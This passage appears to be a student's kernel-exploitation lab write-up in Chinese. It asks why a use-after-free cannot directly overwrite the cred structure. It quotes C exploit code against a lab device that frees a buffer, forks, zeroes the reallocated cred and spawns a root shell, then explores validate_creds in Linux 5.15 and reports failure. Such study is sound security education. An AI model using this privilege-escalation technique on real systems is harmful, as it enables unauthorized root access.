 ### 思考题 3
> **Question 3**: 为什么不能直接通过 UAF 控制 cred 结构体直接修改其内容？

在 [kernel pwn -- UAF](https://blog.actorsfit.com/a?ID=01300-7b56e285-dfe9-4854-98a1-cb70a01ae043) 中，我们可以找到一个非常类似的通过 UAF 控制 cred 实现提权的例子。其代码大致如下：
```c
typedef unsigned long long u64;

int main() {
	u64 cred[100] = {0, 0, 0}; 

    int dev1 = open("/dev/zjudev", O_RDWR);
    int dev = open("/dev/zjudev", O_RDWR);

    DEBUG(0xA8, XYX_PURPLE);
    ioctl(dev1, 0x0001, 0xA8);
    close(dev1);

    int id = fork();
    write(dev, cred, 28);
    if(id == 0){
        DEBUG(getuid(), XYX_CYAN);
        if (!getuid()) {
            printf("[*]welcome root:\n");
            system("/bin/sh");
        }
        return 0;
    }
    else if(id < 0){
        printf("[*]fork fail\n");
    }
    else{
        DEBUG(getuid(), XYX_GREEN);
        wait(NULL);
        DEBUG(getuid(), XYX_BLUE);
    }

	return 0;
}
```
但是，我运行了这段代码后始终没有获得成功。关注到参考的题目中使用的 linux 版本是 4.4.72，我查看了相关的 kernel 代码，尤其关注了两者的不同。

在 [cred.c L718](https://elixir.bootlin.com/linux/v5.15/source/kernel/cred.c#L718) 查看`prepare_kernel_cred`的源码：
![image.png](./assets/1653843779066-bb7a6c1f-3264-43c5-8e05-7e456e9d9bc7.png)
这里调用了 [slab.c L3505](https://elixir.bootlin.com/linux/v5.15/source/mm/slab.c#L3505) 的`kmem_cache_alloc`，其中调用了`slab_alloc`分配内存，因此理论上有与前述攻击类似的可能。

`validate_creds`作为一个在很多地方被调用的内容，引起了我的注意：
![image.png](./assets/1653848145847-c081f7b1-8529-480f-8eb9-c00b111765c7.png)
![image.png](./assets/1653848190252-264b0460-ab51-40bd-bc7a-f1deca7b31d3.png)
![image.png](./assets/1653848225415-a3da77f8-01b6-4d45-9874-4923d173f40b.png)
![image.png](./assets/1653843503447-399205b9-5ca3-438a-8284-26875151c1fe.png)
可以看到，它通过检查`cred->magic`是否等于`CRED_MAGIC`来判断`cred`是否合法，如果不合法会将这个`cred`抛弃掉。因此我尝试将`magic`对应置位：
![image.png](./assets/1653848485237-d37d88fc-9b25-4aac-8e4c-11247c37b32d.png)
但是仍未得到对应结果。<br />我也试图通过调试来发现问题，但是这些检查的函数多以宏或者 inline 的方式呈现，并不能够用来调试：
![image.png](./assets/1653846398667-3192e9c6-f06e-4ecb-89ac-e28948e0017e.png)
我还尝试了调整缓冲区大小、反复尝试等方案，但是都未能产生预期结果。对比两个版本的代码，仍未发现比较关键的因素。
